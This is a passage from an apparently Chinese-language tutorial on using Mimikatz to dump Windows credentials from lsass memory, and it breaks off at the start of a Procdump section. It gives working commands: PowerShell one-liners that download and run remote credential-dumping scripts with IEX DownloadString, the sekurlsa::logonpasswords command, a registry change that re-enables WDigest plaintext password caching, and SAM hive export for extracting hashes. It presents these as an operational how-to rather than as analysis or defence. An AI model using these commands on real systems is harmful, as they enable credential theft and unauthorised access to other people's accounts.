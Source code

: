 ### 0x00 简介

Mimikatz 是一款功能强大的轻量级调试神器，通过它你可以提升进程权限注入进程读取进程内存，当然他最大的亮点就是他可以直接从 lsass.exe 进程中获取当前登录系统用户名的密码， lsass是微软Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在 lsass内存中，经过其 wdigest 和 tspkg 两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中， 而 mimikatz 正是通过对lsass逆算获取到明文密码！也就是说只要你不重启电脑，就可以通过他获取到登陆密码，只限当前登陆系统！

注：但是在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。

这里放几个神器的运行姿势：九种姿势运行：Mimikatz：[https://www.freebuf.com/articles/web/176796.html](https://www.freebuf.com/articles/web/176796.html)

借用PowerShell

Copy

`#读取密码明文(需要管理员权限) powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts`

Copy

`#读取密码hash值(需要管理员权限) powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes`

![](https://img2018.cnblogs.com/blog/1561366/201911/1561366-20191119154410801-226108089.png)

### 0x01 获取本地帐户密码

#### 1.1 本地执行

下载mimikatz程序，找到自己系统对应的位数，右键以管理员身份运行：

Copy

`#提升权限 privilege::debug  #抓取密码 sekurlsa::logonpasswords`

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。

cmd修改注册表命令：

Copy

`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f #重启或用户重新登录后可以成功抓取`

#### 1.2 SAM表获取hash

Copy

`#导出SAM数据 reg save HKLM\SYSTEM SYSTEM reg save HKLM\SAM SAM  #使用mimikatz提取hash lsadump::sam /sam:SAM /system:SYSTEM`

### 0x02 Procdump+Mimikatz

当mimikatz无法在主机上运行时，可以使用微软官方发布的工具Procdump导出lsass.exe:

Copy

